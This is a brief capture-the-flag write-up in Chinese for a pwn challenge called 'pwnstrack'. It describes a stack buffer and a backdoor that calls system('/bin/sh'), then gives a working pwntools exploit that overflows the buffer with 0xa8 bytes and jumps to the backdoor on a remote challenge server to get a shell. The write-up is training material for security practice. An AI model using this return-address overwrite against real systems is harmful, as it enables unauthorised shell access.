




# pwnstrack

## checksec



## IDA逆向分析





buf在栈上0xa0的位置



以上是后门函数的信息，也是在IDA中找到的，可以看到函数调用了system函数然后执行system(‘/bin/sh’)  
所以我们利用栈溢出漏洞，劫持程序，执行后门函数，就可以提权了。

## exp编写

```python
from pwn import * #调用pwntools
context.log_level='debug'#打开debug
io = remote('61.147.171.105',64166)#远程连接程序
payload = b'a'*0xa8 + p64(0x400762)#先是填充0xa8大小的垃圾，然后覆盖返回地址为backdoor的地址
io.sendlineafter(b'this is pwn1,can you do that??\n',payload)#提权
io.interactive()#交互
```

‍


